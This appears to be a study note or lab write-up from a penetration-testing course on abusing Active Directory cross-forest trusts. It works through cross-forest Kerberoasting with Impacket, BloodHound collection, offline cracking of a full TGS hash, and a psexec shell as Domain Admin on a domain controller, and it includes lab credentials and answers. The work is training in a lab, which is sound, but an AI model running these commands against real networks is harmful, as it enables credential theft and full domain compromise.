

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux
It is often possible to Kerberoast across a forest trust. If this is possible in the environment we are assessing, we can perform this with `GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command. Performing this against the `FREIGHTLOGISTICS.LOCAL` domain, we see one SPN entry for the `mssqlsvc` account.

## Cross-Forest Kerberoasting
### Using GetUserSPNs.py

```sh
masterofblafu@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### Using the -request Flag
Rerunning the command with the -request flag added gives us the TGS ticket. 

```sh
masterofblafu@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin. 

## Hunting Foreign Group Membership with Bloodhound-python
### Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf
On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case, we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights.

```sh
masterofblafu@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

### Running bloodhound-python Against INLANEFREIGHT.LOCAL

```sh
masterofblafu@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

### Compressing the File with zip -r

```sh
masterofblafu@htb[/htb]$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

### Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf
We will repeat the same process, this time filling in the details for the FREIGHTLOGISTICS.LOCAL domain.

```sh
masterofblafu@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

### Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

```sh
masterofblafu@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

### Viewing Dangerous Rights through BloodHound
After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.



## Questions
SSH to **10.129.61.173** (ACADEMY-EA-ATTACK01), with user `htb-student` and password `HTB_@cademy_stdnt!`

1. Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc. **Answer: sapsso**
   - Use the `wley`:`transporter@4` account to authenticate against the FREIGHTLOGISTICS.LOCAL and perform cross-forest Kerberoasting:
      ```sh
      $GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
      Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

      Password:transporter@4
      ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
      -----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
      MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               
      HTTP/sapsso.FREIGHTLOGISTICS.LOCAL   sapsso    CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-04-07 17:34:17.571500  <never>
      ```
2. Crack the TGS and submit the cleartext password as your answer. **Answer: pabloPICASSO**
   - Run the Kerberoast again, this time requesting the TGS:
      ```sh
      $GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
      Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

      Password:
      ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
      -----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
      MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               
      HTTP/sapsso.FREIGHTLOGISTICS.LOCAL   sapsso    CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-04-07 17:34:17.571500  <never>               

      <SNIP>

      $krb5tgs$23$*sapsso$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/sapsso*$3669f113fe2a703f0feed09fa74f3dc1$ffbfa15355ef44ca8e4b86ec5450d7e7ed17b7815c1134bca1a998c97285a228581fbb2dcd38dcd063d73b59ca53f30a341cf8842793b3ee39ba8f2487feed93af560c3fed30d6d8702b005152d5046f6d65f80877ddd180743d180433eb95684c5f57225c67031f00b890ad94e8950592ab363d297ae6e3320aafae2cecc6b3ebad38b89327a98a182497bd1fec29f6bcad1c51c0fba74a55058bd380b4c5025b99a9bb5e2c9cb0a202ef99303e2e30522bb78a99006bb82a385ce621648df61787a671c87e2321926d09ef345f34f6fef96c4e4336eb8ccb451d3599739e6009ea1587ade9653528ea8e19cba5e4c4ab400837889e7298ec5abf7ba9786864981a2fc2f9d6bbc110aad3a36040f30eafde8b6666236fcc8b78881fa5c9bcbe5f59d1d905bdd8a28c134c8483e562d2d5236529a5a038ee68f42cb0db8f1de4e341e1ce631aac8d3e84f324edffdfa78728f82d8b07abc245591db1c7bb904c2ed5f3ebde7a069beaa7d7a52e472d897f70a0d250e8d26fdc4b72c07043e26aea3eb7f3f56075346818fb598ce1f75b5f70e2b6d594694a50e60074b5e00f0a53a3445e1eae274679ebf40fbd33460b627c2a92d2b182bc5ad0dea65a10341c37dfa35f6c6c27659eb613857d9beb713e2bf128b23649fcbc30825e914a0e1646fc42c3f632dc0b73c3c039e2ccb1a1cd259604d179c15cd849a222cf8b52014672e4d3b5827834ab7074dbb9ba527548bbbd52e290283479ebf4f6b6c6abd90df079bb03e6e76eff76a0651cb9758d4c3a134f176f8f70511c8083198ab9d3497579099ff7078caf134a13268920c0eb50d21b0cedb324b379fb34b08e5bb93196901fa56396a03b8b7ac9a5f3b2215f590da89c0d3949cc51db425043c344b795601a90206e9e604a9438000447ef55c3847416d988d733c07cf58e4b56c1adf5a04a97dac189a52811b5aef2691096d86b7adeac0eb62f7103720e7bdbdfcaead5ac9acd477b79cd23978376514dc956bee6e21117e7bd69399f7011339714847561a3d1f2f9a0d7cbc1604123f179e60e09d10a36ec5c49a8acb8c95fdaa4f09edae2d779a067ccb9d981111df9ed94892138aa3b0df594057c842a1f8034df41aaa35557a614977535df9147643ddb80bccf735f91f7ec9caed1be79170ade023a59629679d5f8e34560e97adca4ac6b00d0fb0bf63c48a2c0077e96a3f79610bd5e81473f059d459b542040fb1242f2deb0ba1a42af058b796d9685e9baa463b87b6f2ab85b5cd5c08aac578b4e28e3e843e77510fbdf69bfcaf513136fd25895f57e95dffddcb012a9553c87c3b5746118a9b318b682664de278a26510dbdc86554de2ac855fa11df0a515799931900377a53885e512b123be75540cd903dbac1df57861a66f71a40ed5fe98b351577f4027b33b8f704df38da4eb99d48f4be7216ea4b6
      ```
   - Crack the hash offline:
      ```sh
      $ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt 

      <SNIP>

      $krb5tgs$23$*sapsso$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/sapsso*$3669f113fe2a703f0feed09fa74f3dc1$ffbfa15355ef44ca8e4b86ec5450d7e7ed17b7815c1134bca1a998c97285a228581fbb2dcd38dcd063d73b59ca53f30a341cf8842793b3ee39ba8f2487feed93af560c3fed30d6d8702b005152d5046f6d65f80877ddd180743d180433eb95684c5f57225c67031f00b890ad94e8950592ab363d297ae6e3320aafae2cecc6b3ebad38b89327a98a182497bd1fec29f6bcad1c51c0fba74a55058bd380b4c5025b99a9bb5e2c9cb0a202ef99303e2e30522bb78a99006bb82a385ce621648df61787a671c87e2321926d09ef345f34f6fef96c4e4336eb8ccb451d3599739e6009ea1587ade9653528ea8e19cba5e4c4ab400837889e7298ec5abf7ba9786864981a2fc2f9d6bbc110aad3a36040f30eafde8b6666236fcc8b78881fa5c9bcbe5f59d1d905bdd8a28c134c8483e562d2d5236529a5a038ee68f42cb0db8f1de4e341e1ce631aac8d3e84f324edffdfa78728f82d8b07abc245591db1c7bb904c2ed5f3ebde7a069beaa7d7a52e472d897f70a0d250e8d26fdc4b72c07043e26aea3eb7f3f56075346818fb598ce1f75b5f70e2b6d594694a50e60074b5e00f0a53a3445e1eae274679ebf40fbd33460b627c2a92d2b182bc5ad0dea65a10341c37dfa35f6c6c27659eb613857d9beb713e2bf128b23649fcbc30825e914a0e1646fc42c3f632dc0b73c3c039e2ccb1a1cd259604d179c15cd849a222cf8b52014672e4d3b5827834ab7074dbb9ba527548bbbd52e290283479ebf4f6b6c6abd90df079bb03e6e76eff76a0651cb9758d4c3a134f176f8f70511c8083198ab9d3497579099ff7078caf134a13268920c0eb50d21b0cedb324b379fb34b08e5bb93196901fa56396a03b8b7ac9a5f3b2215f590da89c0d3949cc51db425043c344b795601a90206e9e604a9438000447ef55c3847416d988d733c07cf58e4b56c1adf5a04a97dac189a52811b5aef2691096d86b7adeac0eb62f7103720e7bdbdfcaead5ac9acd477b79cd23978376514dc956bee6e21117e7bd69399f7011339714847561a3d1f2f9a0d7cbc1604123f179e60e09d10a36ec5c49a8acb8c95fdaa4f09edae2d779a067ccb9d981111df9ed94892138aa3b0df594057c842a1f8034df41aaa35557a614977535df9147643ddb80bccf735f91f7ec9caed1be79170ade023a59629679d5f8e34560e97adca4ac6b00d0fb0bf63c48a2c0077e96a3f79610bd5e81473f059d459b542040fb1242f2deb0ba1a42af058b796d9685e9baa463b87b6f2ab85b5cd5c08aac578b4e28e3e843e77510fbdf69bfcaf513136fd25895f57e95dffddcb012a9553c87c3b5746118a9b318b682664de278a26510dbdc86554de2ac855fa11df0a515799931900377a53885e512b123be75540cd903dbac1df57861a66f71a40ed5fe98b351577f4027b33b8f704df38da4eb99d48f4be7216ea4b6:pabloPICASSO

      <SNIP>
      ```
3. Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop. **Answer: burn1ng_d0wn_th3_f0rest!**
   - Log in to the target using impacket-pssexec and grab the flag:
      ```sh
      $impacket-psexec FREIGHTLOGISTICS.LOCAL/sapsso:'pabloPICASSO'@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
      Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

      [*] Requesting shares on ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL.....
      [*] Found writable share ADMIN$
      [*] Uploading file lOawsYGs.exe
      [*] Opening SVCManager on ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL.....
      [*] Creating service gvhR on ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL.....
      [*] Starting service gvhR.....
      [!] Press help for extra shell commands
      Microsoft Windows [Version 10.0.17763.107]
      (c) 2018 Microsoft Corporation. All rights reserved.

      <SNIP>
      C:\Users\Administrator\Desktop>more flag.txt
      burn1ng_d0wn_th3_f0rest!
      ```